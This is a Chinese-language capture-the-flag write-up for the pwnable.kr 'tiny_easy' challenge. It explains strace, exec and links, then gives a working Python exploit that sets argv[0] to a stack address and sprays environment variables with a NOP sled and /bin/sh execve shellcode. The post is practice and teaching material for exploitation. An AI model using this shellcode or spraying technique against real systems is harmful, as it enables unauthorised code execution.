





# Tiny_Easy Problem #
> I made a pretty difficult pwn task.
However I also made a dumb rookie mistake and made it too easy :(
This is based on real event :) enjoy.
> ssh tiny_easy@pwnable.kr -p2222 (pw:guest)

## 题目解读
看了题目的描述信息，没有看出有用的细节，于是ssh登录看了一下。目录中有两个文件，一个是答案flag，另外一个是tiny_easy的可执行程序。尝试执行了一下tiny_easy，出现段错误。

### 文件分析
使用scp命令来下载tiny_easy程序（`scp -P 2222 tiny_easy@pwnable.kr:/home/tiny_easy/tiny_easy ./`），并用IDA进行分析。

并没有得到有效的信息。
使用gdb-peda，并在程序入口处下断点（这里提供一个下断点的方法，因为没有符号表，可以使用readelf命令来读取文件头，从header中查找文件入口为0x8048054），如下图示：

执行的命令为：./tiny_easy 1234,单步执行到`call edx`的时候出错，可以看到edx对应为`/hom`,它并不是一个有效的地址。

也就是说执行的`pop edx`则是把第二个参数的地址赋值给edx，并把edx地址对应的内容再赋值给edx，最后执行edx。第二个参数就是tiny_easy本身。即程序在开始的运行的时候会把`argc、argv、envp`分别入栈，对应到程序里就是把argc赋给eax，argv赋给edx。

### 知识补充

**strace命令**
> strace常用来跟踪进程执行时的系统调用和所接收的信号。在Linux世界，进程不能直接访问硬件设备，当进程需要访问硬件设备(比如读取磁盘文件，接收网络数据等等)时，必须由用户态模式切换至内核态模式，通过系统调用访问硬件设备。strace可以跟踪到一个进程产生的系统调用,包括参数，返回值，执行消耗的时间。

**strace参数**
>-c 统计每一系统调用的所执行的时间,次数和出错的次数等.   
>-d 输出strace关于标准错误的调试信息. 
>-f 跟踪由fork调用所产生的子进程. 
>-ff 如果提供-o filename,则所有进程的跟踪结果输出到相应的filename.pid中,pid是各进程的进程号. 
>-F 尝试跟踪vfork调用.在-f时,vfork不被跟踪. 
>-h 输出简要的帮助信息. 
>-i 输出系统调用的入口指针. 
>-q 禁止输出关于脱离的消息. 
>-r 打印出相对时间关于,,每一个系统调用. 
>-t 在输出中的每一行前加上时间信息. 
>-tt 在输出中的每一行前加上时间信息,微秒级. 
>-ttt 微秒级输出,以秒了表示时间. 
>-T 显示每一调用所耗的时间. 
>-v 输出所有的系统调用.一些调用关于环境变量,状态,输入输出等调用由于使用频繁,默认不输出. 
>-V 输出strace的版本信息. 
>-x 以十六进制形式输出非标准字符串 
>-xx 所有字符串以十六进制形式输出. 
>-a column 设置返回值的输出位置.默认 为40. 
>-e expr 指定一个表达式,用来控制如何跟踪.格式如下: [qualifier=][!]value1[,value2]... 
qualifier只能是 trace,abbrev,verbose,raw,signal,read,write其中之一.value是用来限定的符号或数字.默认的 qualifier是 trace.感叹号是否定符号.例如: 
-eopen等价于 -e trace=open,表示只跟踪open调用.而-etrace!=open表示跟踪除了open以外的其他调用.有两个特殊的符号 all 和 none. 
注意有些shell使用!来执行历史记录里的命令,所以要使用\\. 
>-e trace=set 
只跟踪指定的系统 调用.例如:-e trace=open,close,rean,write表示只跟踪这四个系统调用.默认的为set=all. 
>-e trace=file 只跟踪有关文件操作的系统调用. 
>-e trace=process 只跟踪有关进程控制的系统调用. 
>-e trace=network 跟踪与网络有关的所有系统调用. 
>-e strace=signal 跟踪所有与系统信号有关的 系统调用 
>-e trace=ipc 跟踪所有与进程通讯有关的系统调用 
>-e abbrev=set 设定 strace输出的系统调用的结果集.-v 等与 abbrev=none.默认为abbrev=all. 
>-e raw=set 将指定的系统调用的参数以十六进制显示. 
>-e signal=set 指定跟踪的系统信号.默认为all.如 signal=!SIGIO(或者signal=!io),表示不跟踪SIGIO信号. 
>-e read=set 输出从指定文件中读出 的数据.例如: 
>-e read=3,5 
>-e write=set 输出写入到指定文件中的数据. 
>-o filename 将strace的输出写入文件filename 
>-p pid 跟踪指定的进程pid. 
>-s strsize 指定输出的字符串的最大长度.默认为32.文件名一直全部输出. 
>-u username 以username 的UID和GID执行被跟踪的命令

**exec命令**
>`exec [-cl] [-a name] [command [arguments]]`
>该命令不会创建新的进程，-a参数表示shell会将name作为第一个参数传给command。具体的细节参照`man exec`。

**软链接和硬链接**
>Linux链接分为两种，Hard Link(硬链接)、Symbolic Link(符号链接)。ln命令默认产生的是硬链接。
>**`硬链接`**：硬连接指通过索引节点来进行连接。在Linux的文件系统中，保存在磁盘分区中的文件不管是什么类型都给它分配一个编号，称为索引节点号(Inode Index)。在Linux中，多个文件名指向同一索引节点是存在的。一般这种连接就是硬连接。硬连接的作用是允许一个文件拥有多个有效路径名。
>**`符号链接`**：也叫软链接。软链接文件类似于Windows的快捷方式，在符号链接中，它实际上是一个文本文件，其中包含另一文件的位置信息。

##解题思路
上面分析过程中提到在执行到`call edx`时出现段错误，而edx的值为程序本身的路径。要是能够更改edx的值为我们想要的目标地址就可以绕过这个段错误。
1. 打开coredump，`ulimit -c unlimited`，然后执行`exec -a 1234 ./tiny_easy &`,这样会产生core文件。

2. 用gdb分析该core文件，`gdb tiny_eay core`，如下图所示：
  

3. 在地址0x34333221处出现错误，它对应为字符串参数‘1234’，也就是说只要构造参数就可以修改跳转地址，但是只能构造一个地址。如果能构造地址指向一个shellcode，就可以执行该shellcode了。

4. 但如何构造这个地址？通过别人的解答掌握了两种不同的姿势。
    1. 软链接
      我们知道直接执行./tiny_easy时，会产生段错误，而错误的地址值对应为它的路径名。可以使用strace命令查看，`strace -if ./tiny_easy`,结果如下：
      
      该程序为执行execve函数，并且在0x69742f2e处出现崩溃。这里0x69742f2e对应的字符串就是`./ti`,也就说如果能够修改./tiny_easy的名字为shellcode的地址，那就能够执行shellcode了。

    2. 环境变量

       通过上面的分析可以知道需要修改的argv[0]，即把argv[0]修改为shellcode的地址即可。在这里可以使用python的subprocess模块，把argv[0]修改成目标地址，但问题的关键是如何确定目标地址？这里采用一种叫栈喷射(spray)的方法，用大面积的nop指令来填充栈空间，后面跟着shellcode的指令，这样当跳转到nop区域后会平滑移动到shellcode的区域，就能执行了。

5. writeup

```python
import subprocess

jmpaddr = "\xc4\x40\xb4\xff"  //设定的栈地址，可以先用gdb确定一个大概的范围中的一个值，即argv[0]

//shellcode的选取很重要，在这里纠结了好久才成功
shellcode = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"
spraycode = "\x90"*8092 //栈喷射区域

payload = spraycode + shellcode
penv = {} //环境变量会加入到栈空间中去

for i in range(200):
    penv["test"+str(i)] = payload

for i in range(20):
    print i
    child = subprocess.Popen([jmpaddr], executable='/home/tiny_easy/tiny_easy', env=penv)
    child.wait()

```


测试过程中，使用了一个从网上找的一个shell code，可能是平台不兼容的问题，一直没跑出来，还以为栈喷射很难用，后来换了一个shellcode后，很快就能生效了。

**What a tiny task :) good job!***


##引用
1. http://blog.yiz96.com/archives/98
2. https://gist.github.com/ihciah/b921fe522244e5b70e7a
3. http://www.secbox.cn/hacker/ctf/5547.html